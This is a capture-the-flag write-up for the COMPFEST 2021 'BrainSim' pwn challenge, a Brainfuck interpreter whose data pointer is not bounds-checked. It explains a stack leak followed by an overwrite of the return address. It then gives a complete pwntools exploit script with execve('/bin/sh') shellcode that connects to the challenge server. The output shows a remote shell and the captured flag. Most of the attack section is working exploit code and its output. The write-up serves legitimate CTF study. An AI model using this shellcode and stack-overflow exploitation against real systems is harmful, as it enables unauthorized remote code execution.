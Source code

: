 ## BrainSim

> Points: 500
>
> Solves: 1

### Description:
Heyy! So, I found this BF simulator thing. I thought it's hackable-ish? Because my friend told me there's flag file in it. Maybe you could help me while I'm having my breakfast ? Ehehe...

nc 103.152.242.242 29461

Author: xMaximusKl

Hint: Simple BOF using brainfuck, I wonder what you could with that ? Maybe hanging around in a forbidden place ? :)

### Attachments:
```
brainsim-master-public.zip
```

I was able to start the shell in my local environment but couldn't get the flag from the server during the competition time.
After the competition, I managed to start the shell, and when I checked the binary of the server, the binary of the server and the binary of attachment were different.

```
$ ls -l
total 48
-rwxr-xr-x 1 0 0 21064 Sep 12 04:47 BrainSim　　　<--- The size is different.
-rw-r--r-- 1 0 0  2261 Sep 12 04:47 BrainSim.c
```

When I checked with the administrator on Discord, it seems that the administrator forgot to update the attachment.

I got the binaries from the server and checked the difference between the two binaries.
The following parts of the `Interpret` function are different. There is one more `getchar()` in the attachment binary.

```
          case 0x2c:
            iVar2 = getchar();
            mem[mp] = (char)iVar2;
            getchar();                  <----- this part
            ip = ip + 1;
            break;
```

Attach the binary `BrainSim_server` I got from the server.


## Analysis:

This is a challenge with Brainfuck.
Since NX is disabled, launch the shellcode on the stack BoF.

```
$ checksec BrainSim
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
```

Brainfuck uses the following variables.
```
ip:     Instruction pointer
ip_end: End position of instruction pointer
mp:     Data pointer
brack:  Flag to check the number before and after the bracket
```

Since the range of the value of data pointer`mp` is not checked when executing the Brainfuck code, I can read the value on the stack and write arbitrary data by specifying the following character string.
```
.,[>.,]
```

## Solution:

First I used `.,[>.,]` To leak the stack address (mp = 0 address).

```
0x7fffffffddb0:	0x0000000000000000	0x0000000000000000
0x7fffffffddc0:	0x0000000000000000	0x0000000000000000
0x7fffffffddd0:	0x00007fffffffdee0	0x00007fffffffd5d0　<--- Leak this 0x7fffffffd5d0.
0x7fffffffdde0:	0x00007fffffffde00	0x00005555555556ed
0x7fffffffddf0:	0x00007fffffffdee0	0x3100000000000000
0x7fffffffde00:	0x0000555555555700	0x00007ffff7a03bf7
```

Then I used `,[>,]` to write the shellcode and then change the return address of the `Interpret` function to the leaked stack address.

```
0x7fffffffd5d0:	0x622fb84852d23148	0x485068732f2f6e69  <--- shellcode
0x7fffffffd5e0:	0x48e689485752e789	0x414141050f3b428d
0x7fffffffd5f0:	0x4141414141414141	0x4141414141414141
...
0x7fffffffddb0:	0x4141414141414141	0x4141414141414141
0x7fffffffddc0:	0x4141414141414141	0x4141414141414141
0x7fffffffddd0:	0x4242424242424242	0x4242424242424242
0x7fffffffdde0:	0x4242424242424242	0x00007fffffffd5d0　<--- Change from 0x5555555556ed to 0x7fffffffd5d0
0x7fffffffddf0:	0x00007fffffffdee0	0x3100000000000000
0x7fffffffde00:	0x0000555555555700	0x00007ffff7a03bf7
```

I can start the shellcode by returning from the `Interpret` function to the `main` function with the `Exit` function.


## Exploit code:
```python
from pwn import *

#context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './BrainSim'
elf  = ELF(BINARY)

shellcode = '\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x8d\x42\x3b\x0f\x05'

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "103.152.242.242"
  PORT = 29461
  s = remote(HOST, PORT)
  REMOTE = True
else:
  s = process(BINARY)
  libc = elf.libc
  REMOTE = False

def Interpret_code(code):
  s.sendlineafter("Input : ", "1")
  s.sendlineafter("Code : ", code)

def Make_string(s0):
  s1 = ""
  for i in range(len(s0)):
    s1 += s0[i] + s0[i]
  return s1

if REMOTE:
  # stack leak
  Interpret_code(".,[>.,]")
  s.sendline("A"*0x810+"\x00"*2)

  s.recvuntil("Output: " + "\x00"*0x800)
  s.recv(8)
  stack_leak = u64(s.recv(8))
  print "stack_leak =", hex(stack_leak)

  Interpret_code(",[>,]")
  buf  = shellcode
  buf += "A"*(0x800 - len(buf))
  buf += "B"*0x18
  buf += p64(stack_leak)
  s.sendline(buf)

else:
  # stack leak
  Interpret_code(".,[>.,]")
  s.sendline("AA"*0x810+"\x00")

  s.recvuntil("Output: " + "\x00"*0x800)
  s.recv(8)
  stack_leak = u64(s.recv(8))
  print "stack_leak =", hex(stack_leak)

  Interpret_code(",[>,]")
  buf  = Make_string(shellcode)
  buf += "AA"*(0x800 - len(buf)/2)
  buf += "BB"*0x18
  buf += Make_string(p64(stack_leak)[:-1]) + "\n"
  s.sendline(buf)

s.interactive()

```

## Results:
```bash
mito@ubuntu:~/CTF/COMPFEST_CTF_2021/Pwn_BrainSim/brainsim-master-public/public$ python solve.py r
[*] '/home/mito/CTF/COMPFEST_CTF_2021/Pwn_BrainSim/brainsim-master-public/public/BrainSim'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to 103.152.242.242 on port 29461: Done
stack_leak = 0x7ffd02a75070
[*] Switching to interactive mode

Output: $ ls -l
total 48
-rwxr-xr-x 1 0 0 21064 Sep 12 04:47 BrainSim
-rw-r--r-- 1 0 0  2261 Sep 12 04:47 BrainSim.c
drwxr-xr-x 2 0 0  4096 Sep 12 04:40 bin
drwxr-xr-x 2 0 0  4096 Sep 12 04:40 dev
-r--r--r-- 1 0 0    56 Sep 12 04:47 flag.txt
lrwxrwxrwx 1 0 0     7 Sep 12 04:40 lib -> usr/lib
lrwxrwxrwx 1 0 0     9 Sep 12 04:40 lib32 -> usr/lib32
lrwxrwxrwx 1 0 0     9 Sep 12 04:40 lib64 -> usr/lib64
lrwxrwxrwx 1 0 0    10 Sep 12 04:40 libx32 -> usr/libx32
-rwxr-xr-x 1 0 0   338 Sep 12 04:47 run.sh
drwxr-xr-x 6 0 0  4096 Sep 12 04:40 usr
$ cat flag.txt
COMPFEST13{570PPPP_I7___937_0U7_0f_my_H34d___b6fc1236d6}
```

The administrator sent me the Exploit code, so I'll attach `exploit.py`.
Thank you for your polite response even after the competition.

## Reference:
https://en.wikipedia.org/wiki/Brainfuck

https://www.notion.so/RCTF-2020-acfcdd0de8534ed0a7caef3549088281
